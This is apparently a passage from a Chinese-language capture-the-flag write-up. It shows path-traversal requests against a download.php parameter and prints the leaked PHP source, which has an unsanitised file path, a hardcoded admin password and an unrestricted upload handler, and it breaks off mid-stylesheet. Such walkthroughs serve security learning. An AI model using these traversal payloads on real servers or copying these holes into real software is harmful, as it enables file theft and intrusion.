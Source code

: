 页面源代码中发现download.php能下载文件

?file=/../../../../../../../var/www/html/index.php

?file=/../../../../../../../var/www/html/download.php

download.php

```php
<?php
// 获取传入的file参数
$file = $_GET['file'];

// 设置文件路径
$file_path = 'uploads/' . $file;

// 检查文件是否存在
if (file_exists($file_path)) {
    // 设置下载的文件名
    header('Content-Disposition: attachment; filename="' . basename($file_path) . '"');
    // 设置文件类型
    header('Content-Type: application/octet-stream');
    // 读取文件并输出给浏览器
    readfile($file_path);
} else {
    // 文件不存在时的处理
    echo '文件不存在';
}
?>
```

index.php

```php+HTML
<?php
// 检查是否有POST请求
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // 检查用户名和密码
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';

    if ($username === 'admin' && $password === 'This_is_STROng_P@sswd') {
        if (isset($_FILES['file'])) {
            $file_name = $_FILES['file']['name'];
            $file_tmp = $_FILES['file']['tmp_name'];
            move_uploaded_file($file_tmp, '/var/www/html/uploads/' . $file_name);
            chmod('/var/www/html/uploads/' . $file_name, 0755);
            echo '文件上传成功';
        } else {
            echo '请选择要上传的文件';
        }
    } else {
        echo '用户名或密码错误，无法上传文件';
    }
}

?>


<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>文件上传和下载</title>
    <style>
        body {
```